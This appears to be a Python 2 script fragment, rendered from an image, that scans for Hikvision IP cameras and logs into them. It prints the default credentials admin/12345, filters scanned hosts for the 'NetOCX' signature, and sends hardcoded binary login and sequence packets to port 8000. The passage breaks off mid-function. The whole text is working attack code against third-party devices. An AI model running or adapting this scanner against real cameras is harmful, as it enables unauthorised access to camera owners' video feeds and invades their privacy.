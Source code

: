 ```python
import pickle
import struct

with open('./data/dict/server_dict.txt') as f:
    server_dict = pickle.load(f)

# 第二种
print '-' * 40
print "Find IP Camera Type 2"
print "Hikvision IP Camera found:(ObjectX, check disabled)"
print "Username: admin"
print "Password: 12345"
t_2 = {}
for x in server_dict.iteritems():
    if x[1].content.find('NetOCX') >= 0:
        t_2[x[0]] = ''
        print x[0]


# 抓取第二种设备信息
def device_info(ip):
    print "test ", ip
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, 8000))
        s.send("\x00\x00\x00TZ\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x04\x00(\xc1\x00\x00\x00\x00\x0f\x02\x00\n\x08\x00';Je\x00\x00tsXrcsXYs9\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00bbXcsXctst\x00\x00\x00\x00\x00\x00")
        data = s.recv(1024)
        login_rt = "\x00\x00\x00L'\x00\x00\x00\x00\x00\x00'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
        s.close()
        if data != login_rt:
            t_2[ip] = ''
            return
        else:
            # 首先是个seq
            # 可能无效包，但测试必须有后面才正常
            for i in range(3):
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((ip, 8000))
                seq_req = "\x00\x00\x00TZ\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x10\x04\x00(\xc1\x00\x00\x00\x00\x0f\x02\x00\n\x08\x00';Je\x00\x00z\xdaf\x00\x8d\x16\xd2~\x9dU\x05\xf1\x1fi\xbb\xa9\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc3\xd0\xa2|\xa6v\xbd\xf3\x1eO\xd1\xcb\xdc\xae\xcbd"
                s.send(seq_req)
                seq_ret = s.recv(1024)
                del seq_ret
                s.close()
            # 然后是name_seq
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, 8000))
            name_seq_req = "\x00\x00\x00 Z\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x0f\x02\x00\n\x00\x01\x00\x02\x08\x00';Je\x00\x00"
            s.send(name_seq_req)
            name_seq_ret = s.recv(1024)
            # print "name_seq_ret: ", name_seq_ret
            s.close()
            # 其次是chanel
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, 8000))
```